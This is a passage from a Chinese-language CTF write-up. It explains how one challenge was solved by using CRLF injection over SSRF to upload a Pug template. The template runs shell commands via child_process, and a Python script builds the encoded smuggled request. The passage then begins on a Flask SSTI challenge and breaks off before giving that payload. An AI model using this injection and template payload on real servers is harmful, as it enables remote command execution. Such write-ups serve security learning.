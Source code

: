 crlf + ssrf

参考文章 [https://www.anquanke.com/post/id/240014](https://www.anquanke.com/post/id/240014)

思路是先通过 crlf 发送上传包将文件传到 template 目录下 (minetype 跨目录), 然后渲染自己的模板文件来执行任意命令

构造 payload

```python
from urllib.parse import quote

payload = ''' HTTP/1.1


POST /file_upload HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 282
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydlC8VbfVGkiZbHjJ
Connection: close

------WebKitFormBoundarydlC8VbfVGkiZbHjJ
Content-Disposition: form-data; name="file"; filename="test.pug"
Content-Type: ../template/

#{global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()}
------WebKitFormBoundarydlC8VbfVGkiZbHjJ--


GET /'''.replace('\n', '\r\n')

enc_payload = u''

for i in payload:
    enc_payload += chr(0x0100 + ord(i))

print(quote(enc_payload))
```

这里好像必须得全部转成高位 unicode 字符, 因为题目过滤了单双引号会影响正常的 http 数据包, 但是单独把这两个字符转成高位之后再上传服务器会出错, 很奇怪

![image-20221223165136476](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212231651681.png)

![image-20221223165152137](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212231651218.png)

## [watevrCTF-2019]Supercalc

flask 编写的在线计算器

返回的 session 中保存着 code history, 因为会回显在网页上, 所以猜测是在这里进行 ssti

但是 `secret_key` 死活爆破不出来, 输入点也过滤了很多内容, 没啥思路

最后看 wp 发现构造的 payload 是这样的
